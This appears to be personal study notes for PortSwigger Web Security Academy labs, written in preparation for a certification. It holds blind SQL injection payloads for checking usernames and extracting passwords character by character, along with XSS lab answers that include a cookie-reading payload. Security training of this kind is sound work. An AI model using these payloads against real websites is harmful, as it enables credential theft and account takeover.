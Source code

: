 # PortSwigger Labs -Notes
Am i getting ready for BSCP? I don't know


## SQL injection
###  blind - Conditional Responses
    Take a look and see wheather the page displays certain messages. Page's size is handful.

    * You might use it to determine if the username existing within the table
        This queries evaluates if the given username exists inside the table
        and (select 'a' from users where username = 'foo')='a
    
    * To get the password length. 
        and (select 'a' from users where username = 'foo' and length(password)>1)='a

    * To get the password by issuing one char at a time while looping through the password length
        The incremental must be where the first 1 is at.
        and (select substring(password,1,1) from users where username = 'foo')=§
    

### blind - Trigerring conditional errors

    * It can be used to return a database error (stack trace??) containing a specific given payload
        this payload `select` something. If this `thing` equal to 1 it gets devided by 0 or it `echoes` back a letter
        and (select case when (1=1) then 1/0 else 'a)='a

        #SUBSTRING PASSWORD GUESSING WITH CASE - HOME LAB
        select password (case when substring(password, 2,1) = 'u' then "RIGHT" else "NOOO" end) from blah where user = 'nobody';
## XSS
### DOM XSS in document.write sink using source location.search [APPRENTICE]
    answer: "><img%20src=x%20onerror=alert()>

### DOM XSS in document.write sink using source location.search inside a select element [PRACTITIONER]
    answer: &storeId=</option><script>alert()</script>

### DOM XSS in innerHTML sink using source location.search [APPRENTICE]
    answer: '><img src=x onerror=alert()>

### DOM XSS in jQuery anchor href attribute sink using location.search source [APPRENTICE]
    answer: javascript:alert(document.cookie)

### DOM XSS in jQuery selector sink using a hashchange event [APPRENTICE]
    answer: <iframe height="900" width="900" src="https://0abd009b04972d7c8140164f002a0029.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded [APPRENTICE]
    answer: {{constructor.constructor('alert(1)')()}}

### Reflected DOM XSS [PRACTITIONER]
    answer: \"-alert()}//

### Stored DOM XSS
    answer: bar</section></p>foo<img src=x onerror=alert()>
